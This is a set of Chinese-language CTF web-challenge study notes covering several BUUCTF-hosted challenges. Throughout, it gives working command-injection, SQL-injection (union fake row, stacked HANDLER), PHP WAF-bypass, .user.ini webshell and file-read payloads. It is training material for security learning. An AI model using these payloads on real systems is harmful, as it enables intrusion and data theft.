 ##[GXYCTF2019]Ping Ping Ping##
只想到了用base64绕过，还是太水了。


其余解:

1, 通过变量实现字符串拼接 

构造:?ip=127.0.0.1|b=ag;a=fl;cat$IFS$1$a$b.php

**2，内联执行**

构造:?ip=127.0.0.1|cat$IFS$1\`ls\`
**注：内联，就是将反引号内命令的输出作为输入执行** 

不一定要输入，可以利用\`\`将想要的参数输入,什么正则都是浮云。


## [RoarCTF 2019]Easy Calc ##
1，不知道PHP字符串解析的漏洞

2，不知道chr的使用

解决:

1，PHP在解析查询字符串时，它会做两件事，删除空白符和将某些字符转换为下划线（包括空格)所以用到? num绕过

**2，chr(ascll编码)可以绕过一些waf,所以scandir(chr(47))获取目录文件，之后直接file_get_contents()显示文件内容。**//为什么system(chr(34).ls.chr(34))不行？



## [GXYCTF2019]BabySQli ##

问题: 想过滤了括号可怎么注入


解决:不知道啊，但是这题只要帐号密码正确即可。要注入才能知道密码？非也。

**在联合查询并不存在的数据时，联合查询就会构造一个虚拟的数据。**

select * from users where username='admin' union select 0,'aaa','123',0; 则会产生 username=aaa;pw=123的数据。

## [网鼎杯 2018]Fakebook ##

问题:无

思考:先user()确定用户,然后into outfile写入，能写入当然好，写不入就碰flag的名字出来，然后用load_file()读取


## [SUCTF 2019]CheckIn ##
问题:上次.user.ini后再上次图片马怎么连都连不上。

解决:这个文件的意思是把所有文件都包含该图片马,所以直接访问index.php即可


## [HCTF 2018]admin ##
问题:看到修改密码差到要修改admin的密码,可以找不到username啊。

解决:在session中，百度解密脚本，然后再找源码中找到key，再修改后加密即可




## [网鼎杯 2020 青龙组]AreUSerialz ##

问题:看到protected果断加%00*%00当是这样绕不过is_valid()

解决:PHP7.1+对类的属性类型不敏感,可以直接用public.

因为protected/private类型的属性序列化后产生不可打印字符,所以需要修饰.


## [GYCTF2020]Blacklist ##
问题:看到禁了select等函数后知道要用堆叠注入,但是到了show tables后**不知道查表格里的信息**

解决:**HANDLER … OPEN**语句打开一个表，使其可以使用后续**HANDLER … READ**语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER … CLOSE或会话终止之前不会关闭.

1’;handler FlagHere open(打开FlagHere表);handler FlagHere read first(阅读表中第一行数据)(next,prev,last);handler FlagHere close;(关闭)#(数字表格得加``)


## [BUUCTF 2018]Online Tool ##

问题:本地环境跑不出来，这啥啊，拿别人的wp来记录一下。

解决:https://blog.csdn.net/qq_45521281/article/details/106236200?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161996350316780261948546%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=161996350316780261948546&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-5-106236200.pc_search_result_before_js&utm_term=escapeshellarg


